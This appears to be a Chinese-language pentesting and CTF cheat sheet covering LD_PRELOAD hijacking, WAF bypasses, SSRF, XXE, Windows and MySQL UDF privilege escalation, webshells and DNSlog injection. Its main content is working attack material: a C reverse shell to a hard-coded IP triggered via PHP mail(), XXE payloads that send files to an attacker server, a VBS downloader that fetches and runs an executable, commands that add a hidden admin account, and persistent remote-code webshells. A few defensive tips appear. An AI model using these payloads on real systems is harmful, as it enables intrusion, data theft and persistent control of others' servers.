#### LD_PRELOAD是Linux系统的下一个有趣的环境变量：“它允许你定义在程序运行前优先加载的动态链接库。这个功能主要就是用来有选择性的载入不同动态链接库中的相同函数。通过这个环境变量，我们可以在主程序和其动态链接库的中间加载别的动态链接库，甚至覆盖正常的函数库。一方面，我们可以以此功能来使用自己的或是更好的函数（无需别人的源码），而另一方面，我们也可以以向别人的程序注入程序，从而达到特定的目的。”
#### 测试
```c
#include <stdio.h>
#include <string.h>
int main(int argc, char **argv){
char passwd[] = "password";
if (argc < 2) {
        printf("usage: %s <password>/n", argv[0]);
        return 0;
}
if (!strcmp(passwd, argv[1])) {
        printf("Correct Password!/n");
        return 0;
}
printf("Invalid Password!/n");
}
# 保存为a.c，并编译为a
#gcc a.c -o a
```
##### 运行结果为


#### 程序很简单，根据判断传入的字符串是否等于”password”，得出两种不同结果。 其中用到了标准C函数strcmp函数来做比较，这是一个外部调用函数，我们来重新编写一个同名函数
```c
#include <stdio.h>
#include <string.h>
int strcmp(const char *s1, const char *s2){
    printf("hack functio  n invoked. s1=<%s> s2=<%s>/n", s1, s2);
    return 0;
}
#保存为b.c
```
#### 编译为一个动态共享库：
```shell
gcc -fPIC -shared b.c  -o b.so
```
#### 通过LD_PRELOAD来设置它能被其他调用它的程序优先加载：
```shell
export LD_PRELOAD="./b.so"

```
#### 运行给出的例程：
```shell
./a bbb
Correct Password!
```
#### 我们看到随意输入字符串都会显示密码正确，这说明程序在运行时优先加载了我们自己编写的程序。这也就是说如果程序在运行过程中调用了某个标准的动态链接库的函数，那么我们就有机会通过LD_PRELOAD来设置它优先加载我们自己编写的程序，实现劫持。
### 实战测试
##### 那么我们来看一下sendmail函数都调用了哪些库函数，使用readelf -Ws /usr/sbin/sendmail命令来查看，我们发现sendmail函数在运行过程动态调用了很多标准库函数：

### 思路
编制我们自己的动态链接程序。
通过putenv来设置LD_PRELOAD，让我们的程序优先被调用。
在webshell上用mail函数发送一封邮件来触发。
#### 编制我们自己的动态链接程序。
```c
#include<stdlib.h>
#include <stdio.h>
#include<string.h>

void payload(){
         FILE*fp = fopen("/tmp/2.txt","w");
         fclose(fp);
         system("bash -i >& /dev/tcp/132.232.75.90/9898 0>&1");
 }


int geteuid(){
	FILE *fp1=fopen("/tmp/2.txt","r");
	if(fp1!=NULL)
	{
	 fclose(fp1);
         return 552;
        }else {
         payload();
         return 552;
       }


}

```
```
gcc -c -fPIC a.c -o a
gcc -shared a -o a.so
```
#### 通过putenv来设置LD_PRELOAD，让我们的程序优先被调用。在webshell上用mail函数发送一封邮件来触发。结果为
```php
<?php
   putenv("LD_PRELOAD=/var/www/html/a.so");
   mail("[email protected]","","","","");
  ?>

```

#### 防止命令注入函数
```php
<?php
escapeshellcmd()
escapeshellarg()
?>
```
### 最后建立文件的目录要有写权限
## 八 任意文件读取函数
```php
<?php
file_get_contents()
highlight_file()
fopen()
readfile()
fread()
fgetss()
fgets()
parse_ini_file()
show_source()
file()
?>

```
#### 命令执行绕所waf
[命令执行绕waf](https://www.freebuf.com/articles/web/185158.html)[]
#####　技巧一：
在bash的操作环境中有一个非常有用的功能，那就是通配符，下面列出一些常用的通配符：
```
*    代表『 0 个到无穷多个』任意字符
?    代表『一定有一个』任意字符
[ ]    同样代表『一定有一个在括号内』的字符(非任意字符)。例如 [abcd] 代表『一定有一个字符， 可能是 a, b, c, d 这四个任何一个』
[ - ]    若有减号在中括号内时，代表『在编码顺序内的所有字符』。例如 [0-9] 代表 0 到 9 之间的所有数字，因为数字的语系编码是连续的！
[^ ]    若中括号内的第一个字符为指数符号 (^) ，那表示『反向选择』，例如 [^abc] 代表 一定有一个字符，只要是非 a, b, c 的其他字符就接受的意思。
```
使用通配符来执行命令


##### 技巧二：连接符
你唯一需要注意的就是闭合，这点很重要，利用这个我们可以绕过一些匹配字符串的WAF规则。
```shell
/'b'i'n'/'c'a't' /'e't'c'/'p'a's's'w'd
/'b'i'n'/'w'h'i'c'h' 'n'c
```


其他字符：
```
/"b"i"n"/"w"h"i"c"h" "n"c
```

```
反斜杆
/b\i\n/w\h\i\c\h n\c
```

######  技巧三：未初始化的bash变量
```
root@kali:~# echo $a

root@kali:~# echo $b

root@kali:~# echo $c

root@kali:~#
```
未初始化的变量值都是null。
```
cat$a /etc$a/passwd$a
```

过滤空格
tab键
```
cat$IFS/etc/passwd
```

### 举例
#####　代码
```
<?php
include 'flag.php';
if(isset($_GET['code'])){
    $code = $_GET['code'];
    if(strlen($code)>40){
        die("Long.");
    }
    if(preg_match("/[A-Za-z0-9]+/",$code)){
        die("NO.");
    }
    @eval($code);
}else{
    highlight_file(__FILE__);
}
//$hint =  "php function getFlag() to get flag";
?>
```
###分析
###根据代码，我们要满足两个条件：
####    长度不能大于40
####    不能包含大小写字母，数字
## 知识点一
```php
<?php
eval('$a=123;?><?= $a;?>');
#<?= 等于 <? echo
eval会在前面加上<?php 故用;?>闭合，才能写下一句
?>
```
##知识点二  linxu通配符
```
$_=`/???/???%20/???/???/????/?????.???`;?><?=$_?>
#"/bin/cat /var/www/html/index.php" 读文件源码
相当与
<?php $_ ='`/bin/cat /var/www/html/index.php`'; echo eval($_)?>
```
#### 那解就明了，直接读flag.php就行
## 九 ssrf
#### 1.getimagesize导致ｓｓｒｆ

#### ssrf 绕过
#####1.利用短地址 http://dwz.cn/11SMa  >>>  http://127.0.0.1
#####2. 利用的原理是DNS解析 http://127.0.0.1.xip.io/  http://www.owasp.org.127.0.0.1.xip.io/
#####3.利用@http://example.com@127.0.0.1
##### 4、利用Enclosed alphanumerics   利用Enclosed alphanumericsⓔⓧⓐⓜⓟⓛⓔ.ⓒⓞⓜ  >>>  example.com
```List:
① ② ③ ④ ⑤ ⑥ ⑦ ⑧ ⑨ ⑩ ⑪ ⑫ ⑬ ⑭ ⑮ ⑯ ⑰ ⑱ ⑲ ⑳
⑴ ⑵ ⑶ ⑷ ⑸ ⑹ ⑺ ⑻ ⑼ ⑽ ⑾ ⑿ ⒀ ⒁ ⒂ ⒃ ⒄ ⒅ ⒆ ⒇
⒈ ⒉ ⒊ ⒋ ⒌ ⒍ ⒎ ⒏ ⒐ ⒑ ⒒ ⒓ ⒔ ⒕ ⒖ ⒗ ⒘ ⒙ ⒚ ⒛
⒜ ⒝ ⒞ ⒟ ⒠ ⒡ ⒢ ⒣ ⒤ ⒥ ⒦ ⒧ ⒨ ⒩ ⒪ ⒫ ⒬ ⒭ ⒮ ⒯ ⒰ ⒱ ⒲ ⒳ ⒴ ⒵
Ⓐ Ⓑ Ⓒ Ⓓ Ⓔ Ⓕ Ⓖ Ⓗ Ⓘ Ⓙ Ⓚ Ⓛ Ⓜ Ⓝ Ⓞ Ⓟ Ⓠ Ⓡ Ⓢ Ⓣ Ⓤ Ⓥ Ⓦ Ⓧ Ⓨ Ⓩ
ⓐ ⓑ ⓒ ⓓ ⓔ ⓕ ⓖ ⓗ ⓘ ⓙ ⓚ ⓛ ⓜ ⓝ ⓞ ⓟ ⓠ ⓡ ⓢ ⓣ ⓤ ⓥ ⓦ ⓧ ⓨ ⓩ
⓪ ⓫ ⓬ ⓭ ⓮ ⓯ ⓰ ⓱ ⓲ ⓳ ⓴
⓵ ⓶ ⓷ ⓸ ⓹ ⓺ ⓻ ⓼ ⓽ ⓾ ⓿
```
##### 可以是十六进制，八进制等。百度 115.239.210.26  >>>  16373751032 装换为八进制首先把这四段数字给分别转成16进制，结果：73 ef d2 1a然后把 73efd21a 这十六进制一起转换成8进制


##### 9、利用句号 127。0。0。1  >>>  127.0.0.1
## 十 xxe漏洞
#### 漏洞原理
######　XXE Injection即XML External Entity Injection,也就是XML外部实体注入攻击.漏洞是在对非安全的外部实体数据进行处理时引发的安全问题.在XML1.0标准里,XML文档结构里定义了实体(entity)这个概念.实体可以通过预定义在文档中调用,实体的标识符可访问本地或远程内容.如果在这个过程中引入了”污染”源,在对XML文档处理后则可能导致信息泄漏等安全问题
####　造成的漏洞
##### 导致读取任意文件、执行系统命令、探测内网端口、攻击内网网站等危害。
####漏洞检测
#####传输数据Burp抓包content-type为xml可能存在
第一步检测XML是否会被成功解析
第二步检测服务器是否支持DTD引用外部实体
#### 測試代碼
```php
<?php
$data = file_get_contents('php://input');
$xml = simplexml_load_string($data);
echo $xml->name;
?>
```
##### 測試代码一，直接回显
```php
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<root>
<name>&xxe;</name>
</root>
```

##### 测试playload二，通过对攻击者网站的请求直接携带数据 无回显
```
#访问请求
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
<!ENTITY % remote SYSTEM "http://132.232.75.90:8000/1.xml">
%remote;]>
#1.xml中
<!ENTITY % a SYSTEM "file:///F:/1.txt">
<!ENTITY % b "<!ENTITY &#37; c SYSTEM 'http://132.232.75.90:8000/%a;'>"> %b; %c
```

#####类似的
```
可以直接写入文件
#访问请求
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
<!ENTITY % remote SYSTEM "http://localhost/test.xml">
%remote;]>
#test.html
<!ENTITY % a SYSTEM "php://filter/read=convert.base64-encode/resource=file:///F:/1.txt">
<!ENTITY % b "<!ENTITY &#37; c SYSTEM 'http://localhost/test.php?file=%a;'>">
%b;
%c;
#test.php
<?php  
file_put_contents("test.txt", $_GET['file']) ;  
?>
```

#### 执行命令
```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "expect://id" >]>
<root>
<name>&xxe;</name>
</root>
```
#### 攻击内网
```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "http://hack.com/playload" >]>
<root>
<name>&xxe;</name>
</root>
#其中playload 有对内网的访问
```
#### 内网端口探测
```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "http://127.0.0.1:80" >]>
<root>
<name>&xxe;</name>
</root>
```
### xxe防御
#### 方案一、使用开发语言提供的禁用外部实体的方法
```
PHP：
libxml_disable_entity_loader(true);

JAVA:
DocumentBuilderFactory dbf =DocumentBuilderFactory.newInstance();
dbf.setExpandEntityReferences(false);

Python：
from lxml import etree
xmlData = etree.parse(xmlSource,etree.XMLParser(resolve_entities=False))
```
#### 方案二、过滤用户提交的XML数据
##### 关键词：<!DOCTYPE和<!ENTITY，或者，SYSTEM和PUBLIC。
## 十 提权
### 一windows提权
#### 相关知识
ticmd 系统提权   的相关知识：：

内置用户：
Administrator，系统管理员账户，拥有完全控制权限。
Guest，来宾账户，仅具有最基本权限，默认被禁用。


内置用户组：
Administrators，管理员组。
Users，新建用户默认所属的组。
Guest，权限最低。


安装了IIS之后，系统会自动添加两个账号：
IUSR_*，Web客户端的匿名访问账号，Guest组的成员。
IWAM_*，IIS应用程序的运行账号，IIS_WPG组的成员。


获取了Webshell，其实就是获得了IUSR_*账号的使用权限。通常对于本站目录具有读、写、修改权限。
提权的最终目的是为了获取Administrators组权限。

```
系统提权的基本命令：：
net user                                 查看计算机中所有的账号
net user administrator                   查看账号 administrator 的信息
net user hacker 123 /add                 在计算机中增加用户名为 hacker 密码是 123 的账号
net user hacker 456                      修改账号 hacker 的密码为 456
net user hacker /del                     删除账号 hacker
net user guest /active:yes(no)           启用(禁用) guest 账号
net localgroup                           显示当前系统里所有的组
net localgroup Administrators            查看 Administrators 组里有哪些成员
net localgroup Administrators guest /add 将 guest 账号添加到 Administrators 组里
net localgroup Administrators guest /del 将 guest 账号从 Administrators 组里移除
net user test$ 123 /add                  简单的隐藏账号，在命令提示符中看不到
whoami                                   查看当前用户
whoami /all                              查看更多的信息
churrasco "命令"                         使用工具 churrasco 执行由于权限低不能执行的命令
```
#### 提权步骤：
一、添加账号
```
1、在菜刀里执行虚拟终端，权限不够，上传自己的cmd.exe（wwwroot，UploadFiles，RECYCLER（回收站））
2、查看有权限，写入没权限，上传工具：Churrasco.exe（巴西烤肉），虚拟终端中将路径切换到 Churrasco 的所在目录
   然后执行命令 churrasco "net user hacker 123 /add"  即可
3、执行命令 churrasco "net localgroup Administrators hacker /add" 就可以添加 hacker 账号到管理员组
4、链接远程桌面需要查看端口3389是否开放 执行命令 netstat -an  查看端口是否开放
5、提权需要开3389，利用工具 opents.exe ,上传
6、要执行 opents.exe ,需使用 churrasco 执行命令  churrasco "opents.exe"   再 netstat -an 查看3389已经开启
7、使用远程桌面 mstsc ，输入对方的IP 即可登录，提权完成。
```
### 主要提权方式
##### １，得到插件库路径
```php
show valiables like '%plugin%';
```
##### ２，找对应操作系统的udf库文件,对于udf文件，在sqlmap工具中自带就有，只要找对应操作系统的版本即可
##### 3.利用udf库文件加载函数并执行命令首先要得到udf库文件的十六进制格式，可在本地通过
```php
mysql> select hex(load_file('/pentest/database/sqlmap/udf/mysql/linux/64/lib_mysqludf_sys.so')) into outfile '/tmp/udf.txt';
```
##### 数据库写入udf库到mysql库目录
'''php
mysql> select unhex('7F454C46020...') into dumpfile '/usr/lib/mysql/plugin/mysqludf.so';
'''
##### 加载函数并执行
```php
mysql> create function sys_eval returns string soname "mysqludf.so";
```
##### 查看有没有加载函数成功
```php
select * from mysql.func;
```
####使用
```php
select sys_eval('ls');
```
十，技术
windons cmd 中下载文件(下载nc)
```
echo Set Post = CreateObject("Msxml2.XMLHTTP") >>zl.vbs
echo Set Shell = CreateObject("Wscript.Shell") >>zl.vbs
echo Post.Open "GET","http://www.jbzj.com/muma.exe",0 >>zl.vbs //网站
echo Post.Send() >>zl.vbs
echo Set aGet = CreateObject("ADODB.Stream") >>zl.vbs
echo aGet.Mode = 3 >>zl.vbs
echo aGet.Type = 1 >>zl.vbs
echo aGet.Open() >>zl.vbs
echo aGet.Write(Post.responseBody) >>zl.vbs
echo aGet.SaveToFile "c:\zl.exe",2 >>zl.vbs //保存的位置
echo wscript.sleep 1000 >>zl.vbs
echo Shell.Run ("c:\zl.exe") >>zl.vbs
```
### WAF绕过
#### WAF(Web应用防火墙，Web Application Firewall的简称)是通过执行一系列针对HTTP/HTTPS的安全策略来专门为Web应用提供保护的产品。WAF可以发现和拦截各类Web层面的攻击，记录攻击日志，实时预警提醒，在Web应用本身存在缺陷的情况下保障其安全。

##### 一、	攻击者可利用哪些方面来绕过WAF？

##### Web容器的特性
1.在IIS+ASP的环境中，对于URL请求的参数值中的%，如果和后面的字符构成的字符串在URL编码表之外，ASP脚本处理时会将其忽略。这个特性仅在iis+asp上 asp.net并不存在
```
http://www.test.com/1.asp?id=1 union all se%lect 1,2,3,4 fro%m adm%in
```
2.在WAF层，获取到的id参数值为1 union all se%lect 1,2,3,4 fro%m adm%in，此时waf因为%的分隔，无法检测出关键字 select from等
<br> 但是因为IIS的特性，id获取的实际参数就变为1 union all select 1,2,3,4 from admin，从而绕过了waf。
<br>2.IIS支持Unicode编码字符的解析，但是某些WAF却不一定具备这种能力。
```
http://www.test.com/1.asp?id=1 union all %u0053elect 1,2,3,4 %u0066rom admin
```

4.根据WAF的不同，一般会同时分开检查id=123和id=456，也有的仅可能取其中一个进行检测
##### Web应用层的问题 -1
5. 多重编码问题
### 如果Web应用程序能够接收多重编码的数据，而WAF只能解码一层(或少于WEB应用程序能接收的层数)时，WAF会因为解码不完全导致防御机制被绕过。
##### WAF存在某些机制，不处理和拦截白名单中的请求数据：


<br> 4.某些WAF无法全面支持GET、POST、Cookie等各类请求包的检测，当GET请求的攻击数据包无法绕过时，转换成POST可能就绕过去了。或者，POST以Content-Type: application/x-www-form-urlencoded无法绕过时，转换成上传包格式的Content-Type: multipart/form-data就能够绕过去。
<br> 5.某些WAF在对HTTP请求数据包中的参数进行检测时，使用&字符对多个参数进行分割，然后分别进行检测，如：
```
http://xx.com/id.php?a=1&b=2&c=3
```

这些WAF会使用&符号分割par1、par2和par3，然后对其参数值进行检测。但是，如果遇到这种构造：
```
http://xx.com/id.php?a=1 select/*&b=2*/1,2,3 /*&c=3*/from adim

```
WAF会将以上参数分割成如下3部分：
```
a=*/select/*
b=2*/1,2,3 /*
c=*/from admin
```
当攻击者提交的参数值中存在大量干扰数据时，如大量空格、TAB、换行、%0c、注释等，WAF需要对其进行清洗，筛选出真实的攻击数据进行检测，以提高检查性能，节省资源。
1.数据提取方式存在缺陷，导致WAF被绕过的实例。
```
http://localhost/test/Article.php?type=1&x=/*&id=-2 union all select 1,2,3,4,5 from dual&y=*/
```
让waf把/**/之间的清洗掉再去检测，然后就检测通过了。 其实执行的还是清洗之前的 WAF清洗 是复制原有语句 进行处理 清洗 然后检测 检测完后 使用原始语句进行查询

<br>规则通用性问题
<br>通用型的WAF，一般无法获知后端使用的是哪些WEB容器、什么数据库、以及使用的什么脚本语言


# <center>CTF writeup</center>
### https://github.com/w181496/Web-CTF-Cheatsheet

<a herf='https://mp.weixin.qq.com/s/9rTtLoucMpaWAeniTj27Xg'>红帽杯部分Wp</a><br>
[HITCTF2018-web全题解](https://mp.weixin.qq.com/s/K9XYMAazQ3vwv2L8yFtx1w)

<a herf='https://mp.weixin.qq.com/s/qdjYYdxu7WTv6o8Ru9pyjQ'>强网杯”部分题目Writeup</a><br>
<a herf='https://mp.weixin.qq.com/s/OVf3eUxjSq9N5wGzfg8F-Q'>从sql注入到xslt再到xxe的一道ctf题目</a>
###  shell 记载
####無文件webshell
```
<?php  
    unlink(__FILE__);  
    ignore_user_abort(true);  
    set_time_limit(0);  
    $remote_file = 'http://xxx/xxx.txt';  
    while($code = file_get_contents($remote_file)){  
        @eval($code);  
        sleep(5);  
    };  

?>  
```
#### webshell駐留記憶體
```
<?php
    ignore_user_abort(true);  // 忽略連線中斷
    set_time_limit(0);  // 設定無執行時間上限
    $file = 'shell.php';
    $code = '<?php eval($_POST[a]);?>';
    while(md5(file_get_contents($file)) !== md5($code)) {
        if(!file_exists($file)) {
            file_put_contents($file, $code);
        }
        usleep(50);
    }
?>
```
### 加密特点
#### sha1 加密都是以数字开头,弱比较可以爆破
#无回显漏洞挖掘(通过DNSlog)
##原理:需要一个可以配置的域名，然后通过代理商设置域名为自己DNS服务器所解析的，DNS在解析时候会留下日志，DNS server会把访问高级域名的日志传给DNS server,然后读取日志，获取信息，ceye 平台会提供一个二级域名，我们可以把我们想获取的信息放在高级域名中。具体如下
###SQL注入类
####通过DNSlog需要使用load_file 函数,所以一般是root权限
下面命令可以查看 load_file()可以读取的磁盘
1.当secure_file_priv为空，就可以读取所有文件
2.当secure_file_priv 为G:/ 表示可以读取G盘的文件
3当secure_file_priv 为null load_file 就不能加载文件
```
show variables like '%secure%';
```

```mysql
select load_file(concat('\\\\',(select database()),'.vmey6j.ceye.io\\hhh'));
```


SELECT * FROM users WHERE username='' =0 group by  password with ROLLUP having password is null#;